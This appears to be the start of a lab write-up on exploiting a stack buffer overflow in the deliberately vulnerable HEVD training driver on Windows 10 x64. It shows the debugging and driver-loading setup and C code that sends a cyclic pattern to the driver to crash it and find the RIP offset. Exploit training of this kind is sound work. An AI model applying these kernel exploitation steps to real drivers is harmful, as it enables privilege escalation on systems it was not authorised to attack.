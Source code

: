 ```yaml
---
title: Windows 10 x64 Kernel Exploitation - Stack Buffer Overflow using HEVD
---
```


## Setup
This has been repeated 100 times, so I'm keeping it brief. The debuggee and debugger are Windows 10 x64 fully up to date (OS Build 19045.5371). I used the following commands to setup the debuggee virtual machine. The debugger VM I installed WinDbg, Visual Studio, and Binary Ninja.

```Batchfile
bcdedit -set TESTSIGNING on
bcdedit /debug on
bcdedit /dbgsettings net hostip:<HOST IP ADDR HERE> port:50000

sc create HEVD binPath= C:\driver\vulnerable\x64\HEVD.sys type= kernel
sc config HEVD start= auto
sc start HEVD

sc query HEVD

sc stop HEVD
sc delete HEVD
```

## Trigger the Exploit and Gain RIP Control
I triggered the buffer overlow with a [cyclic pattern](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) to easily identify the offset for `RIP` control.

```c
int main(void) {

	HANDLE hDriver = CreateFileA(
		"\\\\.\\HackSysExtremeVulnerableDriver",
		GENERIC_READ | GENERIC_WRITE,
		0,
		NULL,
		OPEN_EXISTING,
		FILE_ATTRIBUTE_NORMAL,
		NULL);

    char payload[] = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3....De8De9Df0Df1Df2D"

	DeviceIoControl(
		hDriver,
		HEVD_IOCTL_BUFFER_OVERFLOW_STACK,
		payload,
		sizeof(payload),
		NULL,
		0,
		NULL,
		NULL);

	return 0;
}
```
After the crash, we can use WinDbg to inspect the stack (`dq rsp`), and find the value we tried to `ret` to. And then [lookup up the pattern](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) to find the offset for `rip` control.